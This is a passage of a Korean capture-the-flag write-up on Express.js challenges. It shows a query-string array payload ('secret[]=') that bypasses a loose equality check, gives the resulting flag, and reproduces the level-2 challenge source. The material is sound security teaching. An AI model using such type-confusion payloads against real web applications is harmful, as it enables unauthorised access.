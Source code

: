 ```javascript
＞ var secret = ['GIVEmeTHEflagNOW'];
undefined
＞ secret.length
1
＞ if (secret == 'GIVEmeTHEflagNOW'){console.log(1);}
1
```
<strong> 하지만 Express.js는 Object로 Query String을 보내줄 수 있기 때문에 이를 이용해서 보내주면 길이는 1, secret의 값은 `GIVEmeTHEflagNOW`가 되므로 문제를 해결할 수 있습니다.</strong><br>

```
Solve Payload : http://challenges.gynvael.stream:5001/?secret[]=GIVEmeTHEflagNOW
```

`FLAG : CTF{SmellsLikePHP}`

---
### Challenge 2

```javascript
Level 2

const express = require('express')
const fs = require('fs')

const PORT = 5002
const FLAG = process.env.FLAG || "???"
const SOURCE = fs.readFileSync('app.js')

const app = express()

app.get('/', (req, res) => {
  res.statusCode = 200
  res.setHeader('Content-Type', 'text/plain;charset=utf-8')
  res.write("Level 2\n\n")

  if (!('X' in req.query)) {
    res.end(SOURCE)
    return
  }

  if (req.query.X.length > 800) {
    const s = JSON.stringify(req.query.X)
    if (s.length > 100) {
      res.end("Go away.")
      return
    }

    try {
      const k = '<' + req.query.X + '>'
      res.end("Close, but no cigar.")
    } catch {
      res.end(FLAG)
    }

  } else {
    res.end("No way.")
    return
  }
})

app.listen(PORT, () => {
  console.log(`Challenge listening at port ${PORT}`)
}) 
```
